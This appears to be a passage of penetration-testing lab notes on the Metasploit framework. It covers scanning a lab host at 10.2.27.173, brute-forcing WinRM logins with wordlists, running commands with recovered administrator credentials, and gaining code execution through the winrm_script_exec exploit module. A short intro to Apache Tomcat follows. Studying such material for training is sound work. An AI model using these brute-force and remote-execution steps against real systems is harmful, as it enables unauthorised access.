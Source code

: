 ```bash
db_status
setg RHOSTS 10.2.27.173
setg RHOST 10.2.27.173
workspace -a WinRM

db_nmap -sS -sV -O -p- 10.2.27.173
# Port 5985 is set up for WinRM
```

```bash
search type:auxiliary winrm
use auxiliary/scanner/winrm/winrm_auth_methods
options
run

# Brute force WinRM login
search winrm_login
use auxiliary/scanner/winrm/winrm_login
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

search winrm_cmd
use auxiliary/scanner/winrm/winrm_cmd
set USERNAME administrator
set PASSWORD tinkerbell
set CMD whoami
run
```

![](.gitbook/assets/image-20230416114857268.png)

```bash
search winrm_script
use exploit/windows/winrm/winrm_script_exec
set USERNAME administrator
set PASSWORD tinkerbell
set FORCE_VBS true
exploit
```

### Apache Tomcat

[**`Apache Tomcat`**](https://tomcat.apache.org/) is a free open source Java servlet web server, *build to host dynamic websites and web apps developed in **Java***.

